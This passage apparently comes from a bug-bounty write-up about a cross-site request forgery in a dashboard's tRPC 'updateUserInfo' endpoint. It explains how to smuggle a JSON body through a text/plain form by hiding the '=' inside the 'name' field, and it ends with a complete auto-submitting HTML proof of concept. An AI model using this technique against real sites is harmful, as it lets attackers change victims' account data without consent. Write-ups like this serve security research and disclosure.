 ```json
{"error":{"message":"Received 'EG=' is an invalid enum value for country.","code":"invalid_enum_value"}}
```

This confirmed that the server strictly validated the `country` field against a set of predefined values and did not accept arbitrary characters like `=`.

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## CSRF PoC and Exploitation Details

We’re not at the finish line yet, but here’s where things get interesting. After realizing that the issue with `=` being treated as part of the JSON structure was causing issues, I decided to embed the payload in the `name` parameter, where the server would treat it as normal text in the user’s name. This subtle approach led to a successful CSRF attack.

The CSRF PoC looked like this:

```html
<html>
  <body>
    <form action="https://dashboard.target.com/trpc/users.updateUserInfo?batch=1" method="POST" enctype="text/plain">
      <input type="hidden" name="&#123;&quot;0&quot;&#58;&#123;&quot;accountName&quot;&#58;&quot;hacked&quot;&#44;&quot;name&quot;&#58;&quot;tes&#32;edf" value="&quot;&#44;&quot;subscribed&quot;&#58;&quot;on&quot;&#44;&quot;phone&quot;&#58;&quot;1099424297&quot;&#44;&quot;country&quot;&#58;&quot;EG&quot;&#125;&#125;&#13;&#10;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
